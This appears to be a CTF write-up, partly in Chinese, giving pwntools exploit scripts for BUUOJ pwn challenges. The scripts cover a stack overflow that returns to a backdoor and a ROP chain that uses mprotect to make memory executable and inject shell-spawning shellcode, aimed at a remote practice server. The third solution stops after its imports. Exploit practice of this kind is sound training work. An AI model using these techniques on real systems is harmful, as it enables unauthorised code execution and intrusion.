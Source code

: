 # buu012-bjdctf_2020_babystack

```python
from pwn import *

# io = process('./pwn')
io = remote('node4.buuoj.cn', 27538)

elf = ELF('./pwn')

io.sendlineafter(b'length of your name:', b'1000')
io.sendlineafter(b'What\'s u name?', cyclic(0x10 + 8) + p64(elf.symbols['backdoor']))
io.interactive()
```
# buu013-get_started_3dsctf_2016
不知道为什么3dsctf里面不止一道题在挂exp脚本调试的时候recv收不到一开始发送的字符串，很奇怪，本来这一题直接返回到后门就好了，但是因为这个怪原因不得不用mprotect在其他地方再写一个shell，原来程序里面的后门就没用上 ~~（屑）~~
使用mprotect函数时传入的地址参数必须页对齐，size参数也必须是页的整数倍。权限填7表示可读可写可执行。本题中要修改的主要是下面这个页的属性，然后shellcode写在.got.plt段中，尝试修改bss段，写在bss段发现不行，可能是bss段中有一些重要数据之类。
![](https://img-blog.csdnimg.cn/b6188cbaf1d841cba169b5a8872f551b.png)
exp：
```python
from pwn import *
import time
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 29364)
elf = ELF('./pwn')
mprotect = elf.symbols['mprotect']
start = 0x80eb000
length = 0x1000
bss = 0x803bf80
pop3 = 0x0809e4c5

payload = cyclic(0x38)
payload += p32(mprotect)
payload += p32(pop3)
payload += p32(start)
payload += p32(length)
payload += p32(7)
payload += p32(elf.symbols['read'])
payload += p32(pop3)
payload += p32(0)	# stdin
payload += p32(start)
payload += p32(0x80)
payload += p32(start)
# gdb.attach(io)
io.sendline(payload)

time.sleep(0.5)
io.sendline(asm(shellcraft.sh()))

io.interactive()
```
# buu014-ciscn_2019_en_2
```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'
```